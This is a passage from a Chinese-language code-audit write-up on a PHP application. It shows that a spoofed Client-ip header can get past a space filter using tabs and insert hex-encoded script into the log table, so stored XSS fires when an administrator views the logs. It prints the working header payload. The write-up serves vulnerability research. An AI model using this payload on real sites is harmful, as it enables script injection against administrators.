 IP是可以被伪造的，虽然过滤了空格，但是我们可以使用tab来进行绕过，而xxs语句可以用hex编码写入。这里最大的痛点就是将圆括号给过滤掉了，导致我们无法进行sql注入，

我们跟进insert方法，如图：

```php
public function insert($arr)
{
   $nid = 0;
   if($this->record($arr, ''))$nid = $this->db->insert_id();
   return $nid;
}
```

这里调用了SQL注入中提到的record函数，用来插入数据

至此，我们可以在log表中插入xss代码，当管理员查看“日志管理”功能时，触发xss

构造payload为

```php
Client-ip: 111',web=0x3c7363726970743e616c65727428273127293c2f7363726970743e    --  '
```

管理员登录查看日志成功触发xss

![image-20231117174024766](assets/1702521305-0ea8e9170f39cd4330ec44374d517184.jpg)

## 0x05 总结

审计时对请求传参进行过滤可以关注一下对json格式、base64解密等操作请求传参点，可能会出现意想不到的绕过。
